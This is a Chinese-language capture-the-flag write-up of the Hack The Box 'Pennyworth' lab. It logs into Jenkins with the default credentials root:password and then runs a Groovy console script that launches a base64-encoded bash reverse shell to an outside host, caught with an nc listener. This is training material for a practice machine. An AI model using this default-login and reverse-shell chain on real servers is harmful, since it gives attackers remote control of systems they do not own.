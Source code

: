 ```yaml
---
title: HTB - Pennyworth
published: 2024-05-14
tags: [HTB]
category: Write Up
draft: false
password: startpoint
abstract: 請大家使用比較安全的密碼吧
message: 就跟你講吧 ! 密碼是 startpoint
---
```


# HTB - Pennyworth
![image](https://hackmd.io/_uploads/SJahgPcgC.png)

### 使用知識
* 弱口令
* Jenkins
* Groovy腳本
* Reverse Shell
* Google (?)

## 過程
1.先掃主機Port
```bash
rustscan -a {target ip}
```
>rustscan 掃描端口速度非常快
>但不是nmap的替代方案,只是快速的發現開啟的Port
>可以使用 rustscan -a {target ip} -- {nmap argment}來做更細微的操作

2.發現```8080```port開啟之後,直接開瀏覽器連入
![image](https://hackmd.io/_uploads/B1JKfvcl0.png)


3.Google 查看 Jenkins 是否有預設密碼是管理者未改變的
``` root:password ```直接進入後台
![image](https://hackmd.io/_uploads/rk0aGDqeR.png)
>p.s 我以為這邊要練習hydra之類的暴力破解工具,沒想到那麼簡單
>不愧是 very easy

4.進入```http://{target ip}:8080/script```來輸入Groovy腳本
我在[Hacktricks](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script)找到一個 Reverse Shell的腳本
先測試作業系統
```=groovy
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
報錯了,所以系統應該是Linux,這邊準備Linux用的Reverse Shell
```=bash
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
>第二行 base64 編碼的是 reverse shell 的指令,請把下列改成你自己的ip
>bash -c 'bash -i >& /dev/tcp/{YOUR IP}/{PORT} 0>&1'

5.在本地創建一個接收 Rverse Shell 的 ```nc```
```=bash
nc -lvnp {你剛剛設定的port}
```
![image](https://hackmd.io/_uploads/SkKbLD5gC.png)
接受到對方主機回傳的 shell
flag.txt 就在 root 裡面


---
## 總結
~~其實這題沒什麼技術性~~
但是資訊安全就是靠累積經驗讓自己判斷甚麼時候該做甚麼的領域
想到再補充